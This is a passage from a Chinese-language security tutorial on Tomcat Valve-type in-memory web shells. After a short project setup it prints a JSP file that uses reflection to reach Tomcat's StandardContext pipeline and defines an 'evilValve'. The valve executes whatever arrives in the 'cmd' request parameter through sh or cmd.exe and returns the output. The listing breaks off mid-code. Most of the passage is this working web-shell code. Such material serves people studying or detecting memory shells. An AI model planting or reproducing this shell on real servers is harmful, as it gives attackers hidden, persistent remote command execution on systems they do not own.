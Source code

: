 ## 5.1 Tomcat Valve 型内存马

我这里是新建了一个项目，并创建配置好了`web`目录和`tomcat`环境，`pom.xml`中的依赖如下：

```bash
<dependencies>
        <dependency>
            <groupId>org.apache.tomcat</groupId>
            <artifactId>tomcat-catalina</artifactId>
            <version>9.0.83</version>
        </dependency>
    </dependencies>
```

> 如果 idea 启动 tomcat 报错，可以看看是不是你开了网易云哈哈哈：
> 
> [![](assets/1708482732-2a9067771d189ee7c3cf65adb7dba655.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20240211003502-56e189da-c832-1.jpeg)

在`web`目录下新建一个`666.jsp`：

```bash
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.valves.ValveBase" %>
<%@ page import="org.apache.catalina.connector.Response" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.catalina.core.*" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.PrintWriter" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>

<%
    Field requestField = request.getClass().getDeclaredField("request");
    requestField.setAccessible(true);
    final Request req = (Request) requestField.get(request);
    StandardContext standardContext = (StandardContext) req.getContext();
    Field pipelineField = ContainerBase.class.getDeclaredField("pipeline");
    pipelineField.setAccessible(true);
    StandardPipeline evilStandardPipeline = (StandardPipeline) pipelineField.get(standardContext);
    ValveBase evilValve = new ValveBase() {
        @Override
        public void invoke(Request request, Response response) throws ServletException,IOException {
            if (request.getParameter("cmd") != null) {
                boolean isLinux = true;
                String osTyp = System.getProperty("os.name");
                if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                    isLinux = false;
                }
                String[] cmds = isLinux ? new String[]{"sh", "-c", request.getParameter("cmd")} : new String[]{"cmd.exe", "/c", request.getParameter("cmd")};
                InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                Scanner s = new Scanner(in, "GBK").useDelimiter("\\A");
                String output = s.hasNext() ? s.next() : "";
                response.setCharacterEncoding("GBK");
```